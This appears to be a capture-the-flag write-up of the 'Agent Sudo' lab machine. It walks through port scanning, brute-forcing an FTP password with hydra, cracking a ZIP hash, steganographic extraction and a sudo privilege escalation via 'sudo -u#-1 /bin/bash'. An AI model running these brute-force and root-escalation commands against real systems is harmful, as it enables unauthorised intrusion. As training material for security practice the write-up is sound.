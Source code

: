 # Agent Sudo
You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

## Nmap Scan
```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```
There are three ports open FTP on port 21, SSH on port 22 and web on port 80

## Enumeration
Agents have codename which is a single alphabet, Using Burp Suite I was able to bruteforce user-agent and the user-agent was C
It redirected me to http://<MACHINE_IP>/agent_C_attention.php
There I found a little text message
```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
And we found the user `chris`

## Exploitation
Bruteforcing using hydra `hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://<MACHINE_IP>`
> username - chris

> password - XXXXXXX

Now we know the password, we can login through FTP
Using an ls command we can see all the files in the FTP server
```
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
```
Dumped all the files using `mget *`
I used `binwalk -e cutie.png` to extract all hidden files, Found a 8702.zip and it is encrypted
I am using `zip2john 8702.zip > Output.txt` to extract the hash fro ZIP file for john to crack and `john Output.txt` to crack the hash and we got the password alien

Extracted 8702.zip using `7z e 8702.zip` using the password we previously cracked, The ZIP consisted a TXT file `To_agentR.txt`
Opening the `To_agentR.txt` has the following message
```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```
There is a little encoded string Its was Base64 encoded, It decodes to `Area51`
Using the `steghide — extract -sf cute-alien.jpg` to find hidden files in the other jpg it was asking for a passphrase and I used the previous decoded string, After extracting we got a file `message.txt`
```
Hi james,

Glad you find this message. Your login password is XXXXXXXXXXXX 

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```
Awesome! We got SSH credentials. Let us login using the credentials
> username - james

> password - XXXXXXXXXXXX

Got our first flag `user_flag.txt`
## Priveleges Escalation 

running `sudo -l` to know the priveleges of the current logged in user
```
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```
After searching about `(ALL, !root) /bin/bash` I got to know that its a vulnerability that allows root access 
```
vulnerability is relevant in a specific configuration in the Sudo security policy,
called “sudoers”, which helps ensure that privileges are limited only to specific users.
(source:whitesourcesoftware)
```
Got the root shell using `sudo -u#-1 /bin/bash` and we got our root flag in `/root/root.txt`
